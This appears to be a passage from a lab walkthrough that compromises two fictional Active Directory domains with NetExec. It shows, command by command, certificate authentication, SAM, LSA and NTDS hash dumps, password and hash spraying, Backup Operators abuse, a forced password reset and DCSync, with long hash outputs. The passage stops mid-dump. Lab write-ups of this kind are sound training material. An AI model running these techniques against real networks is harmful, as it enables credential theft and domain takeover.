As we can see above, our compromised endor$ machine account has been granted the right to retrieve gMSA special account’s credentials, in our case, we were able to retrieve gMSA-scarif$ NTLM hash.
Requesting TGT for gMSA-scarif$ Account
Now that we do have access to gMSA-scarif$ credentials, we can request its Ticket Granting Ticket and authenticate with Kerberoas since this is away less suspicious than login using users and it’s password.
poetry run netexec smb rebels.local -u 'gMSA-scarif$' -H '7581e1977e56a2fef27799964139b494' -k --generate-tgt /tmp/gmsa_tgt

Let’s now export this ticket into our current session and use it using NetExec.
export KRB5CCNAME=/tmp/gmsa_tgt.ccache
poetry run netexec smb rebels.local -u 'gMSA-scarif$' -k --use-kcache

Enumerating SMB Shares
With this new compromised account, it’s time to start over and enumerate again, remember, enumeration is the key.
While enumerating the Shares on rebels.local domain using NetExec with --shares flag, it is possible to find out that inside the DANTOOINE host, gMSA-scarif$ account has Read and Right permission over a share named Destroyer_Access.
poetry run netexec smb jedha.rebels.local -u 'gMSA-scarif$' -k --use-kcache --shares

poetry run netexec smb dantooine.rebels.local -u 'gMSA-scarif$' -k --use-kcache --shares

Instead of logging in into this shares, NetExec has a module named spider_plus, this module allows us to simply analyze all shares and also the files containing on them.
poetry run netexec smb dantooine.rebels.local -u 'gMSA-scarif$' -k --use-kcache -M spider_plus

In conjunction with the spider_plus module, NetExec also offers the option to download the Shares folder and also everything inside those folders.
poetry run netexec smb dantooine.rebels.local -u 'gMSA-scarif$' -k --use-kcache -M spider_plus -o DOWNLOAD_FLAG=True

During this newly downloaded shares folder, we can find 2 files, an info.txt and a poe.pfx.

On the screenshot above, we can see a message when we read the info.txt file. The message says that we do have the key for the ship, since I already know what a .pfx file is, this message already caught my attention.
A PFX certificate, or PKCS#12 certificate, is a digital file that includes both a public and private key, along with any intermediate certificates needed to verify the legitimacy of the certificate. It is crucial for secure data exchange over networks, ensuring the authenticity and integrity of the communications.
A PFX certificate file contains three main components: the public certificate, the private key, and any necessary intermediate certificates. The public certificate is used to verify the identity of the certificate holder, while the private key is used to encrypt and decrypt data. Intermediate certificates provide a chain of trust from the certificate to a trusted root certificate.
PFX certificates offer significant security benefits by ensuring encrypted communication and authenticating the identities of parties involved. They are particularly convenient because they bundle the public certificate, private key, and intermediate certificates into a single file, simplifying management and deployment across different systems.
Because a PFX bundles the certificate and its private key together, it gives the attacker a portable, ready-to-use impersonation token.
Once obtained, it lets you do things like:
- Use certificate-based auth to impersonate users or services.
- Bypass password and MFA controls that rely on standard authentication.
- Import it anywhere to pivot quietly without noisy credential-guessing.
In short, it is a stealthy, high-value post-compromise asset that unlocks powerful authentication paths with minimal detection.
Based on this.pfx name, it seems like it belongs to a user named poe, and we also have this user on the list of rebels.local domain users. So let’s use this certificate to authenticate as poe and enumerate where we can authenticate with this certificate inside our network.
During this enumeration we end up finding out that this certificate, allows us to login as an admin on DANTOOINE host.
poetry run netexec smb dantooine.rebels.local -u 'poe' --pfx-cert poe.pfx

poe:e34476e34ffced85899127b84ea71eee
When we used NetExec to enumerate where we can login with this certificate, we end being able to retrieve the NTLM hash for poe user.
Dumping SAM hashes
Since we now have Admin access into DANTOOINE host, there are several ways we can dump hashes on our target, like LSSA, SAM, etc.
Let’s start by dumping SAM. A SAM hash is the hashed password stored in the Security Account Manager (SAM) database on a Windows machine. Every Windows host keeps a local SAM database, regardless of whether it is in a domain or not. Domain membership does not remove or replace it.
The SAM database contains hashes for local accounts such as Administrator, Guest, and any other locally created user.
poetry run netexec smb dantooine.rebels.local -u 'poe' -H 'e34476e34ffced85899127b84ea71eee' --sam

SAM Dumped Hashes
SMB 10.2.10.8 445 DANTOOINE [*] Windows Server 2022 Build 20348 x64 (name:DANTOOINE) (domain:rebels.local) (signing:False) (SMBv1:None) SMB 10.2.10.8 445 DANTOOINE [+] rebels.local\poe:e34476e34ffced85899127b84ea71eee (Pwn3d!) SMB 10.2.10.8 445 DANTOOINE [*] Dumping SAM hashes SMB 10.2.10.8 445 DANTOOINE Administrator:500:aad3b435b51404eeaad3b435b51404ee:52e6c515252f0487bdca397297ddec12::: SMB 10.2.10.8 445 DANTOOINE Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SMB 10.2.10.8 445 DANTOOINE DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SMB 10.2.10.8 445 DANTOOINE WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:790bf36dd9444b57c2b6fbc8e2a1cd95::: SMB 10.2.10.8 445 DANTOOINE localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: SMB 10.2.10.8 445 DANTOOINE [+] Added 5 SAM hashes to the database
Voila, we were able to dump all local account hashes inside this host, which includes also the local Administrator account.
Dumping LSA Hashes
LSA is the local security authority. It runs inside LSASS and manages authentication, tokens, secrets, and security policy.
It stores sensitive material like service account passwords and machine credentials, and it holds live authentication data in memory.
If you think of it as:SAM holds local hashes.NTDS holds domain hashes.LSA/LSASS holds the secrets and active credentials used during logon.
poetry run netexec smb dantooine.rebels.local -u 'poe' -H 'e34476e34ffced85899127b84ea71eee' --lsa

SMB 10.2.10.8 445 DANTOOINE [*] Windows Server 2022 Build 20348 x64 (name:DANTOOINE) (domain:rebels.local) (signing:False) (SMBv1:None)
SMB 10.2.10.8 445 DANTOOINE [+] rebels.local\poe:e34476e34ffced85899127b84ea71eee (Pwn3d!)
SMB 10.2.10.8 445 DANTOOINE [+] Dumping LSA secrets
SMB 10.2.10.8 445 DANTOOINE REBELS.LOCAL/Administrator:$DCC2$10240#Administrator#39485ed3512c727dd30b8f5dccd81131: (2025-11-16 00:30:59)
SMB 10.2.10.8 445 DANTOOINE REBELS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a: (2025-11-15 22:08:12)
SMB 10.2.10.8 445 DANTOOINE REBELS\DANTOOINE$:aes256-cts-hmac-sha1-96:383eff40372173395a5e63f577f2ded409ad6da8f3eb58cd8bec3b8f4230d3d9
SMB 10.2.10.8 445 DANTOOINE REBELS\DANTOOINE$:aes128-cts-hmac-sha1-96:a7117f658f881f19ad1d7d6cf4f97f6b
SMB 10.2.10.8 445 DANTOOINE REBELS\DANTOOINE$:des-cbc-md5:6ba4ef704acd0754
SMB 10.2.10.8 445 DANTOOINE REBELS\DANTOOINE$:plain_password_hex:6f00550076005c00500026002500260044003e0064004300730050005a00470069004a00720074003000380028003a0021006e00560062005c00560036006d004e005e005c004f002f00230041004f00380029002d0040002c00310061006b0068003b005700630020002800650064003f003b00610078002c006e00430031002b00570075003a005100200078003f005c0022006f00300032005e007a003300370020006b0022002f007a0067002d00460053002e0049003c00500025002400300059004400250047002f0055002d00360031006a0051002b005b0042006f004b006800370067006a00430056003a00
SMB 10.2.10.8 445 DANTOOINE REBELS\DANTOOINE$:aad3b435b51404eeaad3b435b51404ee:fe8eef29633f40a62a8cc9909261c455:::
SMB 10.2.10.8 445 DANTOOINE localuser:password
SMB 10.2.10.8 445 DANTOOINE dpapi_machinekey:0x2eeff2dfb674291f7c83aa24679a7b134e0ac591
dpapi_userkey:0x038b82163c27fa78517aa9c67e494f7b06bc0a5a
SMB 10.2.10.8 445 DANTOOINE rebels.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
SMB 10.2.10.8 445 DANTOOINE [+] Dumped 10 LSA secrets to /home/stark/.nxc/logs/lsa/DANTOOINE_10.2.10.8_2025-11-20_080234.secrets and /home/stark/.nxc/logs/lsa/DANTOOINE_10.2.10.8_2025-11-20_080234.cachedObtaining Credentials with NetExec - PowerShell History
NetExec dispose with several ways of enumeration and dumping credentials on our targets, from powershell history to other likes winSCP, PuTTY, etc.
While checking for all these credentials dumping, we are able to find out 2 more passwords inside notepad++ using the -M notepad++ module.
poetry run netexec smb dantooine.rebels.local -u 'poe' -H 'e34476e34ffced85899127b84ea71eee' -M notepad++

credentials:
- wz(}ab4=/&_f
- s>cwp>9c*x=sPassword Spraying
Now that we were able to find 2 more passwords inside the notepad++ file, we can now go for a password spraying, which is basically when we use a list of passwords and also a list of usernames and we try to login by trying all the passwords for each one of the users on our list of users. We should do this password spraying to all the machines we do have on the network.
netexec smb 10.2.10.0/24 -u rebels_users -p credentials.txt

Our password spraying revels that one of these 2 found passwords previously, belongs to user obiwan, and we also discover that, not only this user can access the machine DANTOOINE but this user can also access JEDHA as well, and we know that JEDHA is the rebels.local’s Domain Controller.
Backup Operators Abuse
As we always do after compromising a new users, we must always enumerate, enumerate and enumerate.
poetry run netexec ldap jedha.rebels.local -u 'obiwan' -p 'wz(}ab4=/&_f' --groups

While doing some enumerations, we were able to find out that our compromised Obiwan user is part of Backup Operators group.
poetry run netexec ldap jedha.rebels.local -u 'obiwan' -p 'wz(}ab4=/&_f' --groups "Backup Operators"

The Backup Operators group is a built-in group in Microsoft Windows operating systems. This group is designed to grant users limited privileges to perform backup and restore operations on the system, including the ability to back up and restore files and directories, regardless of their permissions. Members of the Backup Operators group can perform tasks such as backing up the entire system, backing up files and directories, and restoring files and directories. This group is useful in environments where individuals need to perform backup and restore tasks without having full administrative privileges on the system.
From an attacker’s point of view, the Backup Operators group is far more dangerous than it looks.
It was meant to allow trusted staff to run backups without making them full administrators, but the underlying permissions it grants are powerful enough to be weaponised quickly.
As an operator, you can read any file on the system even if you normally wouldn’t have access. That includes the SAM, SYSTEM, SECURITY hives, service configs, or any sensitive application data. Since you can also restore files, you can overwrite protected locations indirectly. With the right technique, you can plant a malicious executable in a privileged path, extract local password hashes, or set up a privilege-escalation chain.
In practice, this means Backup Operators is a built-in role that quietly gives you almost everything you need to move from limited access to full system compromise with very little noise.
Because our compromised compromised user is part of Backup Operators group, we can use NetExec -M backup_operator module to abuse this privilege.
poetry run netexec smb jedha.rebels.local -u 'obiwan' -p 'wz(}ab4=/&_f' -M backup_operator

DCSync Dumped Hashes
SMB 10.2.10.7 445 JEDHA [*] Windows Server 2022 Build 20348 x64 (name:JEDHA) (domain:rebels.local) (signing:True) (SMBv1:None) (Null Auth:True) SMB 10.2.10.7 445 JEDHA [+] rebels.local\obiwan:wz(}ab4=/&_f BACKUP_O... 10.2.10.7 445 JEDHA [*] Triggering RemoteRegistry to start through named pipe... BACKUP_O... 10.2.10.7 445 JEDHA Saved HKLM\SAM to \\10.2.10.7\SYSVOL\SAM BACKUP_O... 10.2.10.7 445 JEDHA Saved HKLM\SYSTEM to \\10.2.10.7\SYSVOL\SYSTEM BACKUP_O... 10.2.10.7 445 JEDHA Saved HKLM\SECURITY to \\10.2.10.7\SYSVOL\SECURITY SMB 10.2.10.7 445 JEDHA [*] Copying "SAM" to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SAM" SMB 10.2.10.7 445 JEDHA [+] File "SAM" was downloaded to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SAM" SMB 10.2.10.7 445 JEDHA [*] Copying "SECURITY" to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SECURITY" SMB 10.2.10.7 445 JEDHA [+] File "SECURITY" was downloaded to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SECURITY" SMB 10.2.10.7 445 JEDHA [*] Copying "SYSTEM" to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SYSTEM" SMB 10.2.10.7 445 JEDHA [+] File "SYSTEM" was downloaded to "/home/stark/.nxc/logs/JEDHA_10.2.10.7_2025-11-20_085214.SYSTEM" BACKUP_O... 10.2.10.7 445 JEDHA Administrator:500:aad3b435b51404eeaad3b435b51404ee:52e6c515252f0487bdca397297ddec12::: BACKUP_O... 10.2.10.7 445 JEDHA Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: BACKUP_O... 10.2.10.7 445 JEDHA DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: BACKUP_O... 10.2.10.7 445 JEDHA $MACHINE.ACC:plain_password_hex:81b08e08965fc1994b638e32a85e3a2ce8f01e636401674fcf862c5ccd01593df78b8dc6afaebb2e7555e8395435c2757747836390d1099ca568c72d388abeb775f3f3d77f7595b2802dc583bdd30d62cc54e64cf697e31290da9327d506140f0aa4331a291e054a963d5348b5f8d4f0cc71a44e0e0eeb092f61aa1dabc81d857df6aad5d6b3f7eec992ddcee6d8af5b534126ffdbaff368077d31adabbc6c7b80d7406d21832190cb200849b3505be5b882232609b3bd6386b7a2205a0581715c1e36b860dbd36cdba495d2ab4aa7af445cf4efc6e8260b844918917f03e864b89c9f98030be58c49d7872d8c42c289 BACKUP_O... 10.2.10.7 445 JEDHA $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:f8ff612d11098184b58da249dd0a1ce3 BACKUP_O... 10.2.10.7 445 JEDHA (Unknown User):password BACKUP_O... 10.2.10.7 445 JEDHA dpapi_machinekey:0xe90e7170abcd35c797e4b1da2b9e9ed9cdfd3a85 dpapi_userkey:0x837c5f0281b413d69b5b375a321aaf8ef6de0912 BACKUP_O... 10.2.10.7 445 JEDHA NL$KM:c268b746c66bccd50e8abd6a756879a736551f845be4ff1a6513d74520e7009dcd3c4dac9e48c41377dc7619996cc7cac60273af3409eecd5d438d52741808ce SMB 10.2.10.7 445 JEDHA [+] rebels.local\Administrator:52e6c515252f0487bdca397297ddec12 (Pwn3d!) BACKUP_O... 10.2.10.7 445 JEDHA [*] Dumping NTDS... SMB 10.2.10.7 445 JEDHA [+] Dumping the NTDS, this could take a while so go grab a redbull... SMB 10.2.10.7 445 JEDHA Administrator:500:aad3b435b51404eeaad3b435b51404ee:52e6c515252f0487bdca397297ddec12::: SMB 10.2.10.7 445 JEDHA Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SMB 10.2.10.7 445 JEDHA krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c88b3b8ede9ade3a8c5b437afb7e09fc::: SMB 10.2.10.7 445 JEDHA localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: SMB 10.2.10.7 445 JEDHA sql_svc:1105:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804::: SMB 10.2.10.7 445 JEDHA rebels.local\luke:1106:aad3b435b51404eeaad3b435b51404ee:123b8def9f4e39aada1367bb47218a6e::: SMB 10.2.10.7 445 JEDHA rebels.local\leia:1107:aad3b435b51404eeaad3b435b51404ee:43aaeca91480c31142970608d0950883::: SMB 10.2.10.7 445 JEDHA rebels.local\han:1108:aad3b435b51404eeaad3b435b51404ee:2422ee3eb6ad8e58f71462b4eff03b0a::: SMB 10.2.10.7 445 JEDHA rebels.local\obiwan:1109:aad3b435b51404eeaad3b435b51404ee:f0057beb1194995b74c28becda1ad201::: SMB 10.2.10.7 445 JEDHA rebels.local\lando:1110:aad3b435b51404eeaad3b435b51404ee:45075605a80080bfb93314eff1a6d4de::: SMB 10.2.10.7 445 JEDHA rebels.local\jyn:1111:aad3b435b51404eeaad3b435b51404ee:4801cd151f0de8968af38c4e312b4f50::: SMB 10.2.10.7 445 JEDHA rebels.local\cassian:1112:aad3b435b51404eeaad3b435b51404ee:bc0b1b7faa85aed660194db393c045a3::: SMB 10.2.10.7 445 JEDHA rebels.local\finn:1113:aad3b435b51404eeaad3b435b51404ee:6bf5bfe70e178247f3d433ce3d02fae4::: SMB 10.2.10.7 445 JEDHA rebels.local\rey:1114:aad3b435b51404eeaad3b435b51404ee:4b6cf82b8e510e1ad98ac936fc8e3c9c::: SMB 10.2.10.7 445 JEDHA rebels.local\maz:1115:aad3b435b51404eeaad3b435b51404ee:82c7f5c4f908429509ace7bd8e16f3f9::: SMB 10.2.10.7 445 JEDHA rebels.local\poe:1116:aad3b435b51404eeaad3b435b51404ee:e34476e34ffced85899127b84ea71eee::: SMB 10.2.10.7 445 JEDHA rebels.local\wedge:1117:aad3b435b51404eeaad3b435b51404ee:b0631ad348948807c9f97af7cf424645::: SMB 10.2.10.7 445 JEDHA rebels.local\biggs:1118:aad3b435b51404eeaad3b435b51404ee:8c232cd8f8f3fcedf9444c668f48de80::: SMB 10.2.10.7 445 JEDHA rebels.local\mon:1119:aad3b435b51404eeaad3b435b51404ee:11140799c13d7fe763f714eec0103a6a::: SMB 10.2.10.7 445 JEDHA rebels.local\bodhi:1120:aad3b435b51404eeaad3b435b51404ee:fe5e17b00ffadac5fd1115291e0dc271::: SMB 10.2.10.7 445 JEDHA rebels.local\chirrut:1121:aad3b435b51404eeaad3b435b51404ee:13e8b1d8e4fcbbdd58510197bb8c1d0a::: SMB 10.2.10.7 445 JEDHA rebels.local\baze:1122:aad3b435b51404eeaad3b435b51404ee:5894fbdf592a160e46707655fe4f5903::: SMB 10.2.10.7 445 JEDHA rebels.local\hera:1123:aad3b435b51404eeaad3b435b51404ee:c610e256c8437c660b2237d7c4b41d08::: SMB 10.2.10.7 445 JEDHA rebels.local\ezra:1124:aad3b435b51404eeaad3b435b51404ee:9c1d3b8a8c0de69de8f53f982244cf7c::: SMB 10.2.10.7 445 JEDHA rebels.local\sabine:1125:aad3b435b51404eeaad3b435b51404ee:f5e6e4beed3698cbf3f5d8b9e04af112::: SMB 10.2.10.7 445 JEDHA JEDHA$:1001:aad3b435b51404eeaad3b435b51404ee:f8ff612d11098184b58da249dd0a1ce3::: SMB 10.2.10.7 445 JEDHA DANTOOINE$:1104:aad3b435b51404eeaad3b435b51404ee:fe8eef29633f40a62a8cc9909261c455::: SMB 10.2.10.7 445 JEDHA endor$:1126:aad3b435b51404eeaad3b435b51404ee:e43f63b3d680076ffd8dafaae8b642c1::: SMB 10.2.10.7 445 JEDHA gMSA-scarif$:1127:aad3b435b51404eeaad3b435b51404ee:7581e1977e56a2fef27799964139b494::: SMB 10.2.10.7 445 JEDHA [+] Dumped 29 NTDS hashes to /home/stark/.nxc/logs/ntds/JEDHA_10.2.10.7_2025-11-20_085214.ntds of which 25 were added to the database
By abusing the privilege of being member of Backup Operators, We have compromised the whole rebels.local domain by doing a DCSync attack.
Domain Admin to empire.local
Well, we have compromised rebels.local domain, it is now time to move back our focus to empire.local and compromised it as well.
After the compromise of rebels.local, we have hold a huge list of users, passwords and also hashes as well.
One next move we could do is the NTLM Hash Spraying, which will basically be the same as the cleartext password spraying, but this time we will be using all dumped hashes with the list of all users we found on both domains and we will be doing this spraying into empire.local.
poetry run netexec smb empire.local -u All_Users.txt -H All_Hashes.txt --continue-on-success

During this spraying, it was possible to find a valid login for user fn2187 with one of the hashes in our wordlist. Well we do have another valid user inside empire.local.
poetry run netexec smb empire.local -u 'fn2187' -H '6bf5bfe70e178247f3d433ce3d02fae4' -k

Read all the ACEs of fn2187
poetry run netexec ldap empire.local -u 'fn2187' -H '6bf5bfe70e178247f3d433ce3d02fae4' -M daclread -o TARGET='fn2187' ACTION='read'

While reading all the ACEs of our current user fn2187, something just caught my attention! We can see that we do have some ACEs reflecting to user vader.
User vader has been granted the specific Extended Rights required to perform a DCSync attack against the domain. By possessing permissions such as DS-Replication-Get-Changes and DS-Replication-Get-Changes-All, this user can simulate the behavior of a Domain Controller to request and retrieve the password hashes for any account in the Active Directory, including the krbtgt account. This effectively gives vader total control over the domain credentials.
Well, let’s try to find out what rights our current user fn2198 has over user vader with the following command.
poetry run netexec ldap empire.local -u 'fn2187' -H '6bf5bfe70e178247f3d433ce3d02fae4' -M daclread -o PRINCIPAL='fn2187' ACTION='read' TARGET='vader’

Amazing, we can see on the screenshot above that Object Type: User-Force-Change-Password, which means that we can simply change our target’s password.
poetry run netexec smb empire.local -u 'fn2187' -H '6bf5bfe70e178247f3d433ce3d02fae4' -M change-password -o USER='vader' NEWPASS='Stark123’

Optional: The other option we also had is to change the target’s NTLM Hash with the following command:nxc smb <ip> -u user -p pass -M change-password -o USER=TargetUser NEWHASH=10C035D527CA60BE3ADF51996E7CD7E1
We successfully changed vader’s password.
poetry run netexec smb empire.local -u 'vader' -p 'Stark123'

DCSync Attack
Now, after being able to change the target’s password, we are able to move and take advantages of the rights that vader has on this domain and once again we will be using NetExec with the --ntds flag.
poetry run netexec smb coruscant.empire.local -u 'vader' -p 'Stark123' --ntds

DCSync Dumped Hashes
SMB 10.2.10.5 445 CORUSCANT [*] Windows Server 2022 Build 20348 x64 (name:CORUSCANT) (domain:empire.local) (signing:True) (SMBv1:None) (Null Auth:True) SMB 10.2.10.5 445 CORUSCANT [+] empire.local\vader:Stark123 SMB 10.2.10.5 445 CORUSCANT [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied SMB 10.2.10.5 445 CORUSCANT [+] Dumping the NTDS, this could take a while so go grab a redbull... SMB 10.2.10.5 445 CORUSCANT Administrator:500:aad3b435b51404eeaad3b435b51404ee:52e6c515252f0487bdca397297ddec12::: SMB 10.2.10.5 445 CORUSCANT Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: SMB 10.2.10.5 445 CORUSCANT krbtgt:502:aad3b435b51404eeaad3b435b51404ee:156a0dfced0f7d50d45ac6170d2053f7::: SMB 10.2.10.5 445 CORUSCANT localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: SMB 10.2.10.5 445 CORUSCANT sql_svc:1105:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804::: SMB 10.2.10.5 445 CORUSCANT empire.local\tarkin:1106:aad3b435b51404eeaad3b435b51404ee:7543109c0b261819a9a9db618971c3a6::: SMB 10.2.10.5 445 CORUSCANT empire.local\vader:1107:aad3b435b51404eeaad3b435b51404ee:29ba2626ebd40e1600199e49e267de8a::: SMB 10.2.10.5 445 CORUSCANT empire.local\palpatine:1108:aad3b435b51404eeaad3b435b51404ee:efd64a87892e25861fd1d59a4120e2c3::: SMB 10.2.10.5 445 CORUSCANT empire.local\krennic:1109:aad3b435b51404eeaad3b435b51404ee:4b2b4946978d3b08c1274998767bf2cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\thrawn:1110:aad3b435b51404eeaad3b435b51404ee:ad5b4992d98a870a14c5bc6a3da8900e::: SMB 10.2.10.5 445 CORUSCANT empire.local\piett:1111:aad3b435b51404eeaad3b435b51404ee:0915768a76e79470a2bba69d14b0eb71::: SMB 10.2.10.5 445 CORUSCANT empire.local\kaiser:1112:aad3b435b51404eeaad3b435b51404ee:e8328021eb472f24e9ad8d41cc5bac74::: SMB 10.2.10.5 445 CORUSCANT empire.local\veers:1113:aad3b435b51404eeaad3b435b51404ee:b371acb2e22f2723a07e4a4e1428a7a5::: SMB 10.2.10.5 445 CORUSCANT empire.local\snow:1114:aad3b435b51404eeaad3b435b51404ee:98ca5d91d6fd0e84b790ca49f173a9f8::: SMB 10.2.10.5 445 CORUSCANT empire.local\jerjerrod:1115:aad3b435b51404eeaad3b435b51404ee:76d5900837564bf1d3b6d0ef4bd55ba4::: SMB 10.2.10.5 445 CORUSCANT empire.local\snoke:1116:aad3b435b51404eeaad3b435b51404ee:774a9bf5f887a60d15917ab3ae3312b4::: SMB 10.2.10.5 445 CORUSCANT empire.local\grievoussssss:1117:aad3b435b51404eeaad3b435b51404ee:98b6c47a5e7c52eb2d41c235eccf12c4::: SMB 10.2.10.5 445 CORUSCANT empire.local\windu:1118:aad3b435b51404eeaad3b435b51404ee:a1801a7775b9601c03cf2cce5ce318c4::: SMB 10.2.10.5 445 CORUSCANT empire.local\maul:1119:aad3b435b51404eeaad3b435b51404ee:efa021b68fad42cfbb5323a41a05184b::: SMB 10.2.10.5 445 CORUSCANT empire.local\dooku:1120:aad3b435b51404eeaad3b435b51404ee:fc626ece1e9d306b34ca2e8c03a200cd::: SMB 10.2.10.5 445 CORUSCANT empire.local\rex:1121:aad3b435b51404eeaad3b435b51404ee:6fa77ef7f71b28960d8b234f3eb167c9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fett:1122:aad3b435b51404eeaad3b435b51404ee:1ab41858c2b3248764157b6e658bdcdf::: SMB 10.2.10.5 445 CORUSCANT empire.local\sidious:1123:aad3b435b51404eeaad3b435b51404ee:5974dfb2fc42419bb3f6ff2a0312d287::: SMB 10.2.10.5 445 CORUSCANT empire.local\hux:1124:aad3b435b51404eeaad3b435b51404ee:0967007fa609ccae92a35b0676c189e6::: SMB 10.2.10.5 445 CORUSCANT empire.local\phasma:1125:aad3b435b51404eeaad3b435b51404ee:33d6f0b5bda4792b5b569cbad988a362::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2100:1126:aad3b435b51404eeaad3b435b51404ee:d538c8573657fc9e0a2375141bd6aac2::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2101:1127:aad3b435b51404eeaad3b435b51404ee:3ed665727a3a55d5539537f00f1da309::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2102:1128:aad3b435b51404eeaad3b435b51404ee:4d949b033377cbe0110c91f1672bded4::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2103:1129:aad3b435b51404eeaad3b435b51404ee:b0cfa58abebc33f5a9346847db095881::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2104:1130:aad3b435b51404eeaad3b435b51404ee:d088eeb2380c9fa97c2b23091db203fc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2105:1131:aad3b435b51404eeaad3b435b51404ee:6bf07dcee45a94cbb37d358221749812::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2106:1132:aad3b435b51404eeaad3b435b51404ee:6b914a75f08866491efed82660b6829c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2107:1133:aad3b435b51404eeaad3b435b51404ee:5af97bfca21c0a9d2b7b35c33707e7db::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2108:1134:aad3b435b51404eeaad3b435b51404ee:099de2fd52b850b4b73d2abf5cba67c0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2109:1135:aad3b435b51404eeaad3b435b51404ee:1f5997bcef766ad2505e7c1085839327::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2110:1136:aad3b435b51404eeaad3b435b51404ee:6e4079cefabf92eceab63cef170bbbca::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2111:1137:aad3b435b51404eeaad3b435b51404ee:3f0ca8ba0cd819484f1337c0a8b11fee::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2112:1138:aad3b435b51404eeaad3b435b51404ee:f39f8bf9c3204586ce51c5eec3ae0b5c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2113:1139:aad3b435b51404eeaad3b435b51404ee:a6c31e74064b78f8c5e0fbe8ca51f030::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2114:1140:aad3b435b51404eeaad3b435b51404ee:dc946b976487fdfcdce8c3109d648588::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2115:1141:aad3b435b51404eeaad3b435b51404ee:d8b572fb1f63e345413ad0dc1c308716::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2116:1142:aad3b435b51404eeaad3b435b51404ee:e3ca8df1b6c476bb8fbf69ac112f6da9::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2117:1143:aad3b435b51404eeaad3b435b51404ee:714f7049b0f0cbc9d24269953fa2b010::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2118:1144:aad3b435b51404eeaad3b435b51404ee:cfae64200ea9ae2d68f1a17c11629934::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2119:1145:aad3b435b51404eeaad3b435b51404ee:9f799b8e9b071564caa357440a2ea5dd::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2120:1146:aad3b435b51404eeaad3b435b51404ee:5592b6e7e20533725c8bb8c4e48ba905::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2121:1147:aad3b435b51404eeaad3b435b51404ee:e868eaefb45bf9c9dadf67063347b3d0::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2122:1148:aad3b435b51404eeaad3b435b51404ee:3582e3e904e3e186a8b2db637bf4fc94::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2123:1149:aad3b435b51404eeaad3b435b51404ee:83e4228bbdae95535507d340c3b72dc1::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2124:1150:aad3b435b51404eeaad3b435b51404ee:88b0462ead9197573b667ee2c68699ef::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2125:1151:aad3b435b51404eeaad3b435b51404ee:01ffabb6a7926fa334a7509f834fd9f5::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2126:1152:aad3b435b51404eeaad3b435b51404ee:2e08f7fb1459353d3d2e7453cf09d11a::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2127:1153:aad3b435b51404eeaad3b435b51404ee:adf1a6f5ac7d4e152f75be7a86813c75::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2128:1154:aad3b435b51404eeaad3b435b51404ee:d9e5f5f0bf89a4d5091392b1e17e63cc::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2129:1155:aad3b435b51404eeaad3b435b51404ee:524fc621998cd3b90b7129e939563187::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2130:1156:aad3b435b51404eeaad3b435b51404ee:53ce4b9818734f7506f7ac48e42b777c::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2131:1157:aad3b435b51404eeaad3b435b51404ee:9bd5175ad55bc4b2923153101c7b99a8::: SMB 10.2.10.5 445 CORUSCANT empire.local\fn2132:1158:aad3b435b51404eeaad3b435b51404ee:10c15763b2cf6b46dd0c530734c2ad75::: SMB 10.2.10.5 445 